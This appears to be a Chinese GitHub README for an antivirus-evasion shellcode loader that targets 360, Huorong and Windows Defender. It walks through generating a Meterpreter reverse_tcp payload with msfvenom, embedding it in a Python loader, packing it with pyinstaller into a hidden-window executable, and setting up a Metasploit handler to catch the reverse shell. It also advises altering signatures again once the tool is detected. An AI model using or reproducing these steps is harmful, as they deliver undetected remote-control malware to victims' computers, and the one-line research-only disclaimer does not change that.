 # Bypass_AV
Bypass_AV msf免杀，ShellCode免杀加载器 ，免杀shellcode执行程序 ，360&amp;火绒&amp;Windows Defender

代码够简单，估计要不了多久就进特征库了，被杀了再去改几个特征码照样又可以免杀，保持更新。

## 声明

#### 该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！


代码未经过大量测试，如发现问题请提交 issue。


## 环境
2022年5月8日 测试可以免杀国内杀软 火绒&360及Windows Defender

Windows 10 64位   360&火绒&Windows Defender

Windows 7 64位  或以上操作系统应该都没问题（没有测试）


## 使用msfvenom

生成ShellCode


```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.100 lport=8080 --encrypt base64 -f c
```

注意：ShellCode 需要是64位的

![image-20220508135022087](https://user-images.githubusercontent.com/34683107/167286509-b134001a-e463-495c-ab6b-78933050b14f.png)
## 加载器

将生成的ShellCode 填至 Bypass_AV.py 里的 ShellCode = '''**ShellCode**''' 处

注意：保留原始ShellCode 里的双引号 "

示例：

![image-20220508134821387](https://user-images.githubusercontent.com/34683107/167286553-0367af02-f64d-4e28-8b01-3080ae98c13f.png)


最终格式：

![image-20220508135655093](https://user-images.githubusercontent.com/34683107/167286556-9b847ebb-0408-43f6-836c-3ac7fac46788.png)



## 打包成可执行程序
编译

Python  3.8.6

pyinstaller 4.7

```
pip install pyinstaller 
pyinstaller -F -w Bypss_AV.py
```

生成Bypass_AV.exe在dist目录中



## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```



### Bypass_360


https://user-images.githubusercontent.com/34683107/167286823-a93fdd69-547e-4adc-9ae5-171fb0e919ca.mov


### Bypass_火绒

https://user-images.githubusercontent.com/34683107/167286897-a482c486-c3e9-4f69-ae55-98afd2ff1ed7.mov


### Bypass_Windows Defender

https://user-images.githubusercontent.com/34683107/167286874-9413611e-c2be-4cfb-ba51-f95ebe5518af.mov


感谢阅读

![Axx8](https://user-images.githubusercontent.com/34683107/167286522-4a5fb52c-f975-4ca1-ba6d-6333fd9ff046.jpg)
![微信公众号](https://user-images.githubusercontent.com/34683107/167347580-f2589264-3bc3-4e8a-9fd4-b5408a2b5dfb.png)
